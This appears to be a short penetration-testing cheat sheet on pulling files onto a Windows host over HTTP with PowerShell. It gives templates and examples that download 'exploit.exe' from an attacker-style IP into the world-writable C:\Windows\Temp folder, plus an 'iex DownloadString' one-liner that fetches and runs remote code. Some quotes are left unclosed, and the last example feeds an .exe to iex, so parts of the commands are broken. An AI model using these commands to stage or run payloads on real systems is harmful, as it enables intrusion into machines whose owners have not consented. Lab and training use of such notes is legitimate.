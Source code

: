 # Windows HTTP File Transfer

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### When wget is not available/usable on a Windows machine use this command to pull files from an http server:
```
powershell -c "Invoke-WebRequest -Uri '[HTTP-SERVER-IP]/[FILE]' -OutFile '[FILE-PATH]'"
```
Example:
```
powershell -c "Invoke-WebRequest -Uri '10.10.100.254/exploit.exe' -OutFile 'C:\Windows\Temp\exploit.exe'"
```
*********************************************************************************
Note: C:\Windows\Temp is commonly world writable
*********************************************************************************
### Another useful command to achieve successful http file transfer via powershell:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://[HTTP-SERVER-IP]:[PORT]/[FILE])
```
Example:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.100.254:80/exploit.exe)
